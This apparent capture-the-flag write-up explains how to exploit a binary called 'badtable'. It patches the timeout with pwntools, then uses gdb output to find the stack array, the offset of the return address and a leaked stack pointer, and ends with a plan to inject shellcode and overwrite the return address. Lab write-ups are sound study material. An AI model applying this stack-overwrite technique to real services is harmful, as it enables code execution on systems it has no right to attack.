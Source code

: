 # Badtable Exploitation

First of all take the binary and patch the timeout:
```
elf = pwn.ELF(sys.argv[1])

# Find the address of the 'timeout' global variable
timeout_addr = elf.symbols['timeout'] 

# Patch the 'timeout' variable with a new value
elf.write(timeout_addr, pwn.p32(0x0))  

elf.save(sys.argv[2])
```
Now run the patched version and connect to the service.
In the container, identify the service process (`ps aux`) and connect to it (`gdp -p <pid>`).

Use `bt` and `frame`` to get to main's frame and determine the address of `array`.
```
gef➤  bt
#0  0xf7fbc549 in __kernel_vsyscall ()
#1  0xf7eb3bab in read () from /lib/i386-linux-gnu/libc.so.6
#2  0xf7e3bc73 in _IO_file_underflow () from /lib/i386-linux-gnu/libc.so.6
#3  0xf7e3d020 in _IO_default_uflow () from /lib/i386-linux-gnu/libc.so.6
#4  0xf7e2efd1 in _IO_getline_info () from /lib/i386-linux-gnu/libc.so.6
#5  0xf7e2f112 in _IO_getline () from /lib/i386-linux-gnu/libc.so.6
#6  0xf7e2de11 in fgets () from /lib/i386-linux-gnu/libc.so.6
#7  0x56595325 in get_char () at badtable.c:27
#8  0x565953c6 in main (argc=0x1, argv=0xffb6aef4) at badtable.c:54
gef➤  frame 8
#8  0x565953c6 in main (argc=0x1, argv=0xffb6aef4) at badtable.c:54
54	    command = get_char();
gef➤  print &array
$1 = (int (*)[1024]) 0xffb69e4c
```
We know that the return address is going to be right after the saved ebp (which is 0):
```
gef➤  x/2xw $ebp
0xffb6ae58:	0x00000000	0xf7ddced5
```
Now let's see what is the offset of the saved registers with respect to the array:
```
gef➤  p/d (0xffb6ae58 - 0xffb69e4c) / 4
$2 = 1027
```
These two values are `array[1027]` and `array[1028]`. 
Now we have to find on the stack a value that represent a pointer on the stack.
Let's look at some values after the saved ebp and saved eip:
```
gef➤  x/10xw 0xfffe486c
0xfffe486c:	0x00000000	0xf7eff000	0x00000400	0x00000000
0xfffe487c:	0xf7d2eed5	0x00000001	0xfffe4914	0xfffe491c
0xfffe488c:	0xfffe48a4	0xf7eff000
```
The value at offset `array[1030]` contains a stack pointer (it is close to the value of `array`).
Now we calculate the difference:
```
gef➤  p/d (0xfffe4914 - 0xfffe386c)
$18 = 4264
```
This tells us that if we read the value at location `array[1030]` and we subtract 4264, we obtain the address of the beginning of the array.
We now have to create the shellcode, put it in the array and then overwrite `array[1028]` with the address of `array`.
